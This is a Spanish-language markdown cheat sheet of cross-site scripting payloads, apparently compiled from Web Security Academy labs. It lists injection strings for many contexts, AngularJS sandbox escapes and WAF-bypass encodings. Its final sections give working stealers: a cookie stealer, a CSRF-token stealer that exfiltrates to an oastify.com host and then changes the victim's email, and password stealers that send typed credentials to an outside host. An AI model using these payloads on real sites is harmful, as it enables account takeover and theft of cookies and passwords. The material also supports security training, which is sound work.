 -- -

## **Reconocimiento**  
- Siempre empezar probando con html injection.

---

## **Inyecciones Básicas (con Tag Cerrado)**  
```html
<script>alert(1)</script>
<img src="x" onerror="alert('XSS')" />
<iframe src="javascript:alert('XSS');"></iframe>
<svg onload="alert('XSS');"></svg>
<video><source onerror="alert('XSS');"></source></video>
<object data="javascript:alert('XSS');"></object>
<math><annotation-xml encoding="application/xhtml+xml"><script>alert('XSS');</script></annotation-xml></math>
abc’”><><img src=1 onerror=alert(document.cookie)>
```

---

## **Bypass de WAF**  
- **HTML Entities**: `&#60;script&#62;`.  
- **URL Encoding**: `%3Cscript%3E`.  
- **Hex/Unicode**: `\u003Cscript\u003E`.  
- **Double Encoding**: `%26%2360%3Bscript%26%2362%3B`.  

---
## **Payloads segun ocaciones**  
```javascript 
" style="animation-name:swoop-up" onanimationstart="alert(document.domain)
```

**Escapando de los tags originales y poniendo mis propios tags**
```html
"><script>alert(0)</script>
```

**Buscando cargar una imagen erronea para asi generar un error**
```html
<img src=x onerror=alert(0)>
```

**Si se esta utilizando Jquery**
```html
1. #<img src=x onerror=alert(0)>
Si es que se refleja

2. <iframe src="https://URL/#" onload="this.src += '<img src=0 onerror=alert(0)>'"></iframe>
```

**Si vemos que lo que inyectamos se refleja en un `<input>`**
```html
" onmouseover="alert(0)
```

**Si jugamos con la declaracion de variables**
```javascript
'-alert(1)-'
kike'; alert(0); var probando='testing
kike'; alert(0)//
kike\'%2balert(0);// ---> siempre y cuando nos escape la '\'
```

**Si la url esta pasando parametros por post, intentar mandarlos por GET como otro parametro aparte y cerrar los tags en los que esta encasillado**
```python
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1 ---> el servidor envia ahi data por POST en diversos parametros
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1&storeId=</option></select><script>alert(0)</script> ---> Le paso data por que mandaba por POST, solo que por GET, cierro las etquietas y asi se ejecuto el codigo reflejado
```

**Si esta usando AngularJS y vemos la palabra ng-app en el codigo**
```javascript
{{constructor.constructor('alert(1)')()}}
```

**Si nuestra data se refleja en un json y/o se esta ejecutando angularJS, vale la pena probar**
```javascript 
asdas\"-alert(0)}//
```

**Si permite usar body y onresize**
```html
<iframe src="https://0ad6008404cf2e4a805d219f00200007.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'></iframe>
```

**Si vemos que no se pueden usar etiquetas comunes, probamos usando etiquetas custom**
```html
<custom id=identifier onfocus=alert(0) tabindex=1>#identifier
```

**Si permite el uso de svg y anchor pero no el href**
```javascript
<svg><animateTransform onbegin=alert(0)>
<svg><a><animate attributeName=href values=javascript:alert(0) /><text x=50 y=50>Click me</text></a>
```

**Si podemos modificar parte de un canonical link tag**
```javascript
https://URL/?'accesskey='x'onclick='alert(0)
```

**Cerrando el tag script en el cual estaba encerrado**
```javascript
</script><script>alert(0)</script>
```

**Abusando del evento onclick con caracteres escapados**
```javascript
http://kike.com&apos;+alert(0)+&apos;
```

**Si la variable se encierra entre backticks:**
```javascript
${alert(0)}
```

**Si esta usando angularJS 1.4.4 y no se puede usar ' ni "**
```javascript
?search=&toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

**Invocar alert escapando del contexto y sin parentesis ni backticks**
```javascript
payload(x=x=>{throw/**/onerror=alert,1337},toString=x,window+'')cierre(,{x:')
```

**Aprovechando una HTMLi para crear un boton malicioso**
```html
my-account?email=prueba"></form><form class="login_form" name="myform" action="https://exploit-0aa900d0042394388054026e017a0088.exploit-server.net/exploit" method="GET"><button class=button type=submit>Click me</button>
```

**Aprovechando insercion en el content CSP**
```html
script-src-elem 'unsafe-inline'
```

---
## **Stealers**
### **Cookie stealer**
```javascript
<script>
	fetch("https://URL/?cookie=" + btoa(document.cookie));
</script>
```

### **CSRF stealer**
```javascript
<script>
	var req = new XMLHttpRequest();
	req.open("GET", "/my-account", true);
	req.send();
	
	var response = req.responseText;
	var csrf_token = response.match(/name="csrf" value="(\w+)"/)[1];
	
	var req2 = new XMLHttpRequest();
	req2.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?response=' + btoa(response), false);
	req2.send();
	
	var req3 = new XMLHttpRequest();
	req3.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?token=' + btoa(csrf_token), false);
	req3.send();

	var req4 = new XMLHttpRequest();
	req4.open('POST', "/my-account/change-email", true);
	req4.setRequestHeader("Content-Type","application/x-www-form-urlencoded")
	var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token);
	req4.send();
	
</script>
```

```javascript
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = handleResponse; 
	req.open('get','/my-account',true);
	req.send(); 
	function handleResponse() { 
		var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
		var changeReq = new XMLHttpRequest(); 
		changeReq.open('post', '/my-account/change-email', true); 
		changeReq.send('csrf='+token+'&email=test@test.com') }; 
</script>

```

## **Password stealer**

```javascript
`<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://ugee0gt5d0krro32q1x1km9wun0eo8cx.oastify.com',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">`
```

```javascript
<script>
function hax() {
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;

  var data = new FormData();
  data.append('csrf', token);
  data.append('postId', 8);
  data.append('comment', `${username}:${password}`);
  data.append('name', 'victim');
  data.append('email', 'zenshell@zenshell.ninja');
  data.append('website', 'http://www.zenshell.ninja');

  fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
  });
}
</script>
```